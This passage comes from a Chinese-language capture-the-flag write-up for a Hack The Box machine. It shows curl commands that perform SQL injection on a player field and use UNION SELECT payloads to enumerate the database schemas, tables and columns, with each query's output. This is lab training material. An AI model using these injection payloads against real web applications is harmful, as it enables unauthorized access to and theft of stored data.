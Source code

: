 如果我们尝试使用 box creator ippsec，我们会得到不同的结果:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d 'player=ippsec'Sorry, ippsec you are not eligible due to already qualifying.
```

如果我们尝试最简单的 SQLi 技术，即单引号:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=ippsec'"

Congratulations ippsec' you may compete in this tournament!<br />
<br />Complete the challenge <a href="/challenge.php">here</a>
```

这是行不通的，但是如果我们在:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=ippsec'-- -"Sorry, ippsec you are not eligible due to already qualifying.
```

我们可以看到它是有效的，因为对输入的玩家名字的检查与 ippsec 匹配，所以我们知道后面的字符已经被注入。

# 数据库枚举

有了如何利用它的知识，我们现在可以开始从后端数据库中检索有用的数据。就像我们在 SQHell 房间里做的那样，我们可以参考 mysql 文档。在[之后](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)我们可以看看这些模式:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=pencer' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata -- -"Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
```

这是可行的，我们检索可用的数据库。让我们使用 sed 整理响应，只显示我们感兴趣的信息:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'mysql,information_schema,performance_schema,sys,november
```

在上面，我刚刚使用 sed 剪切了我们想要看到的响应前后的文本。现在我们知道数据库名为“11 月”,让我们看看表格:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat('TABLE:',TABLE_NAME,'---->-COLUMN:',COLUMN_NAME,'\n') from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = 'november' -- -" | sed 's/Sorry, //' | sed 's/,//' | sed 's/ you are not eligible due to already qualifying.//'table:flag---->-column:one
table:players---->-column:player
```
